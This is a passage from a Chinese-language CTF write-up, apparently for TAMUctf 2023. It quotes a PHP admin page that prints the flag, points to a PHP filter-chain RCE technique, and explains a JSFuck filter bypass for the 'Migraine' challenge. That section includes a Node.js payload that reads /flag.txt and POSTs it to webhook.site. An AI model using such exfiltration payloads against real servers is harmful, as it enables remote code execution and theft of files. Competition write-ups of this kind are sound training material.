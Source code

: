 admin.php:

```php
<?php
if(!isset($_COOKIE['auth_token']) || !is_admin($_COOKIE['auth_token'])) {
  header('Location: ?page=login');
  die();
}
?>

<?php include(INCLUDE_DIR . 'header.php'); ?>
<center>
  <h1><?php include('/flag.txt'); ?></h1>
</center>
<?php include(INCLUDE_DIR . 'footer.php'); ?>
```

从 admin.php 可以知道，只要可以以管理员的身份访问 /admin 就可以看到 flag了。

> 审计一番源码感觉完全没有办法伪造管理员 token 啥的，后面看别人的做法是 RCE....
>
> https://ayusshh.medium.com/tamuctf-2023-blackbox-writeup-af85520442d5
>
> 具体地址看[这里](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
>
> 关于为什么这样可以 RCE 的原理暂时还没探究，实在太抽象啦。

### Migraine



简单阅读一番源代码，发现是一个 JS 命令执行的题目，但是不可以有大小写字母和数字。有一个 tricks 就是 JS解释器可以直接运行 JSFUCK 风格的代码。

JSFUCK 的含义可以参照维基百科：
![image-20230503110205813](image-20230503110205813.png)

- **以 JSFUCK 风格写出的代码不需要另外的编译器或解释器来执行，无论浏览器或 JS 引擎中的原生 JS 解释器皆可直接运行。**

那我们编写一个 JS 普通的命令执行代码，然后将其转为 JSFuck 风格即可。

```
process.mainModule.require('https').request({hostname: 'webhook.site',path: '/6a5ff223-ac5b-4fc7-b3a4-014a10e79095',method: 'POST',headers: {'Content-Type': 'application/x-www-form-urlencoded','Content-Length': process.mainModule.require('fs').readFileSync('/flag.txt').toString().length}}).write(process.mainModule.require('fs').readFileSync('/flag.txt').toString())
//记得把服务器换成自己的地址，推荐使用 webhook.site。
```
